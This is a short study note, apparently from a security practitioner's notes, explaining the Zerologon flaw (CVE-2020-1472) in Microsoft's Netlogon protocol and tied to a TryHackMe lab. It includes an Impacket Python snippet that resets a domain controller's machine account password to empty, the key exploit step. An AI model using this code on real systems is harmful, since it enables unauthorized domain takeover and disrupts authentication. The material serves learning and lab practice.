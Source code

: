 # Zero Logon - CVE-2020-1472

On September 14, [Secura released a whitepaper for CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472), that allowed an attacker to go from Zero to Domain Admin in approximately one minute.

Zero Logon is a purely statistics based Attack abuses a feature within MS-NRPC (Microsoft NetLogon Remote Protocol) is a critical authentication component of Active Directory that handles authentication for User and Machine accounts. Microsoft chose to use AES-CFB8 for a function called ComputeNetlogonCredential, but they hard coded the Initialization Vector to use all zeros instead of a random string. 

The [Secura PoC](https://github.com/SecuraBV/CVE-2020-1472)  tries to:
1. connect to a target computer to establish to bind and a session with NRPC over TCP/IP to then communicate with DC. 
1. It emulates flags used by Windows 10 Client (using AES-CFB8) with the Sign and Seal bit disabled
1. client creates a NetrServerReqChallenge containing the following information required by the [Microsoft Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/5ad9db9f-7441-4ce5-8c7b-7b771e243d32). I recieves `PNETLOGON_CREDENTIAL ServerChallenge` as a response.
1. Use Machine account as they do not have lockout policies with 16 bytes `\x00` Ciphertext to attempt to Abuse Zero Logon
1. Succesfull exploitation will result in recieving the `ServerCredential` and `AccountRID`

The [THM Zero Logon Room](https://tryhackme.com/room/zer0logon) suggest as of the Secure Poc to use [NetrServerPasswordSet2](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81), which very similar [hNetServerAuthenticate3](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9), [nrpc.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/dcerpc/v5/nrpc.py) from [[Impacket-Cheatsheet]] to aid in create a netrServerPasswordSet2 Request. This will change the machine account password.
```python
newPassRequest = nrpc.NetrServerPasswordSet2()
newPassRequest['PrimaryName'] = dc_handle + '\x00'
newPassRequest['AccountName'] = target_computer + '$\x00'
newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
auth = nrpc.NETLOGON_AUTHENTICATOR()
auth['Credential'] = b'\x00' * 8
auth['Timestamp'] = 0
newPassRequest['Authenticator'] = auth
newPassRequest['ComputerName'] = target_computer + '\x00'
newPassRequest['ClearNewPassword'] =  b'\x00' * 516
rpc_con.request(newPassRequest)
```

## References

[THM Zero Logon Room](https://tryhackme.com/room/zer0logon)
[Secura PoC](https://github.com/SecuraBV/CVE-2020-1472)